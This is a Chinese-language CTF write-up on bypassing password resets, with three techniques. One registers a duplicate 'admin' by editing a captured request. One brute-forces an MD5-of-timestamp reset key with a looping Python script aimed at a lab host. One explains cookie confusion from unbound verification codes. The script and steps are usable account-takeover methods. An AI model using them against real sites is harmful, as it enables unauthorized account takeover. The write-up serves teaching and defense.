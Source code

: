 <center>重置密码</center>

> 此章讲述重置密码的姿势



### 1.	手机号绕过



#### 1.	手机号绕过(简单)

> 此节是，CTF中的绕过姿势
>
> 我们正常的重置密码可以通过：注册和`admin`用户，用户名相同的账户。然后修改密码，这样`admin`用户的密码也被我们修改了。

> [地址](http://lab1.xseclab.com/base14_2d7aae2ae829d1d5f45c59e8046bbc54/)



首先看登录

<img src="../../../../img/raoguo.png" style="zoom:80%;" />

此处想要重置`admin`用户密码的话，就必须先要注册一个账号

<img src="../../../../img/raoguo2.png" style="zoom:80%;" />

> 此处我们注册了一个用户名`user1`，密码`user1`的账号

> 有的网站直接就能注册一个叫`admin`的用户，修改密码的时候。直接就能重置原本`admin`账户密码

然后我们点击注册，接下来跳出一个绑定手机号的页面

<img src="../../../../img/raoguo3.png" style="zoom:80%;" />

> 此时使用的是隐藏在`html`页面的官方提供的手机号

接下来点击`Regist`，就是正式注册了。我们在这里抓一下包

<img src="../../../../img/raoguo4.png" style="zoom:80%;" />

> 此处我们就可以把用户名改成`admin`。这样我们就注册了一个id也是`admin`的用户了



然后去重置密码界面重置我们自己的`admin`的密码

<img src="../../../../img/raoguo5.png" style="zoom:80%;" />

> 此处重置我们`"admin"`用户的密码就好了

试题差不多到这就结束了









#### 2.	重置密码(解密)

> 有些的重置密码采用的是：发邮件，然后只要用户点击邮件链接后就算重置密码成功

> 其实也就是说，我们只要能伪造：发送到邮箱里的重置密码的请求就能成功重置密码

> 这道题仍然是`ctf`题



进入首页，如下：

<img src="../../../../img/jiemi1.png" style="zoom:80%;" />

此处我们直接进入`忘记密码`

<img src="../../../../img/jiemi2.png" style="zoom:80%;" />

接下来直接点击重置密码：

> 接下来模拟邮箱收到重置链接

<img src="../../../../img/jiemi3.png" style="zoom:80%;" />

> 此处就相当于邮箱中收到链接了
>
> 点击此处，就相当于重置成功了



我们分析一下这条链接

```
<a href="http://lab1.xseclab.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey=f04bddddd31c0c4ffc503da73f9dcd31&username=uu">重置密码</a>
```

> 可以看到重点在于`sukey`，中



日常的，我们md5解码一下，解码出来：

```
1582527035				//出来了个这个玩意，不知道是啥。如此的话我们多重置两次，分析一下


1582527037
1582527038
```

> 看起来这玩意相似一个不断加的数字。可以想象，既然他是有规律的，他会自动加，那么不是根据请求次数加的话，那么就有可能是根据时间加。而根据请求次数加的话感觉又不合理，比较是加密后的。而这时又想起来了时间戳这玩意。说不定是时间戳。

于是我们写脚本构建时间戳来不断的请求重置`admin`，用户

```
import hashlib
import time

s = requests.Session()
header = {'Cookie': 'saeut=125.122.24.125.1416063016314663; PHPSESSID=f533f185e50879070a2a303f6e6b2c27'}
while True:
    this = str(int(time.time()))
    md5 = hashlib.md5()
    md5.update(this.encode("utf-8"))
    pwd = md5.hexdigest()
    url = 'http://lab1.xseclab.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey=' + pwd + '&username=admin'
    r = s.get(url, headers=header)
    time.sleep(0.3)
    print(r.text)
    if(r.text != ''):
        print(r.url)
        print(r.content)
        break
    else:
        print('正在破解中……', pwd)
        print(r.url)
        print(r.text)
```

> 此处使用`python`的hash模块的md5加密方式。



然后我们继续不断的使用脚本，发请求



当然，这是根据邮件中的重置链接来请求的。如果邮件都不发的话，自然也不会有用。于是我们重置`admin`用户的密码

<img src="../../../../img/jiemi4.png" style="zoom:80%;" />

> 这样，管理员邮箱收到重置链接。我们再进行模拟重置链接，这样就能成功的重置管理员密码。







#### 3.	cookie混淆



乌云案例如下：

https://wooyun.laolisafe.com/bug_detail.php?wybug_id=wooyun-2016-0226583



类似案例：

https://wooyun.laolisafe.com/bug_detail.php?wybug_id=wooyun-2016-0225958



像这种问题实质上是因为验证码没有绑定用户



后端通过cookie来取用户，但验证码未绑定用户。而攻击者则先使用自己的账号获取验证码，然后再尝试重置目标账号，这样浏览器就有两个cookie。而攻击者直接把原本属于自己的验证码，给目标用户的验证码输入栏填上。这样就能使用目标用户的cookie来重置密码。



以上攻击本质上还是因为验证码没有绑定用户导致的。所以这个一定要避免。只要cookie没有绑定用户，就算发了验证码后，不能再修改用户名，也可以通过cookie混淆的方式来攻击
